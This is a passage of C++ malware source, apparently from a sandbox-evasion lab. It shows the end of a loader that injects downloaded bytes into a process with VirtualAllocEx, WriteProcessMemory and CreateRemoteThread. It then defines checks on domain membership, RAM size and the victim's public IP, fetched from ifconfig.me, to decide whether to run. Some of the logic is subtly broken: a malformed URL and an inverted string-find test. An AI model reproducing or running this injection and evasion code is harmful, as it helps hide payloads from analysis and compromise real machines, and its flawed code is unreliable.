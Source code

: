 ```cpp
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);

    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
    return 0;
}

BOOL isDomainController() {
    LPCWSTR dcName;
    string dcNameComp;
    NetGetDCName(NULL, NULL, (LPBYTE*)&dcName);
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
    cout << dcNewName;
    // change \\ by \\\\ with the hint
    if (dcNewName.find("\\\\")) {
        return FALSE;

    }
    else {
        return TRUE;
    }
}

BOOL memoryCheck() {
    MEMORYSTATUSEX statex;
    statex.dwLength = sizeof(statex);
    GlobalMemoryStatusEx(&statex);
    // changed >= 1.0
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 1.00) {
        return TRUE;
    }
    else {
        return FALSE;
    }
}

BOOL checkIP()
{
    // changed IP to 10.10.10.10
    const char* websiteURL = "https://ifconfig.me/10.10.10.10";
    IStream* stream;
    string s;
    char buff[35];
    unsigned long bytesRead;
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 35, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    if (s == "VICTIM_IP") {
        return TRUE;
    }
    else {
        return FALSE;
```